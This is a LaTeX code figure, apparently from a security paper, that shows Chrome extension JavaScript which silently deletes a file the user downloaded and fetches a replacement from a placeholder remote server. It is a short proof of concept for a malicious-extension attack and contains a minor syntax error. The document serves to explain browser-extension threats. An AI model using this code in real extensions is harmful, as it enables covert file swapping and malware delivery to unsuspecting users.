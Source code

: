 	\begin{code}
		\begin{lstlisting}
chrome.downloads.onCreated.addListener(function (downloadItem) {
	if(downloadItem.mime === TARGETED_MIME_TYPE) {
		waitUntilDownloadHasFinished(function() {
			var filename = downloadItem.filename.split('\x5c').pop();			
			chrome.downloads.removeFile(downloadItem.id, function() {
				chrome.downloads.erase({ id: downloadItem.id });
			});
			chrome.downloads.download({
				url: REMOTE_SERVER_URL + '?filename=' downloadItem.filename + '&mime_type=' + TARGETED_MIME_TYPE,
				method: 'GET',
			});	
		});
	}
});
\end{lstlisting}
		\caption{Extension code to silently exchange a file after the user has downloaded it.}
		\label{code:exchangeDownloadedFile}
	\end{code}
